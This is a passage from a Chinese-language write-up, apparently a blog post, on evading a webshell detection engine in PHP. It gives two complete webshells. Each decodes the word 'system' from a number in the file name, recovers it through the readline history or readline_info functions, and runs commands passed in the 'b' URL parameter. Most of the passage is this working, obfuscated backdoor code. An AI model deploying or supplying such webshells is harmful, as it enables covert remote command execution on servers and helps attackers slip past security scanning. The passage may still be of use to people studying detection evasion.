 $f($_GET['b']);` 

在php中，可以遍历目录的方法还有scandir，opendir，glob，但这三个方法都绕不过引擎。

[5.4下的readline扩展绕过](#toc_54readline)
------------------------------------

php有一个扩展叫readline，可以处理命令行历史记录。readline\_add\_history函数可以添加一行到命令行历史记录。readline\_list\_history函数可以获取命令历史列表。

我利用readline\_add\_history函数将"system"添加到历史记录里，然后通过readline\_list\_history函数把system拿出来，以此来绕过引擎。

因为每执行一次readline\_add\_history，历史记录里就会多一个"system"，为了防止webshell的命令被执行多次，我写了一个flag变量，用来记录是否执行过。

`<?php 
function fun($a){
//fun可以将数字451232还原为字符串"system"
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
readline_add_history(fun(intval(substr(__FILE__, -10, 6))));

$arr = readline_list_history();

$flag = 1;
foreach($arr as $a) {
    if ($flag && strlen($a)==6 && $a[0] == 's' && $a[5] == 'm') {
        $flag = 0; 
        $a($_GET['b']);
    }
}` 

此外，我还发现了两个函数，readline和readline\_info。readline\_info函数会返回一个数组，数组中下标为'prompt'的元素，其值为readline函数执行时传入的参数。于是我先执行readline('system')，然后通过readline_info()获取数组，根据下标'prompt'拿到"system"。

`<?php 
function fun($a){
//fun可以将数字451232还原为字符串"system"
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
readline(fun(intval(substr(__FILE__, -10, 6))));
$a=readline_info()['prompt'];

$a($_GET['b']);` 
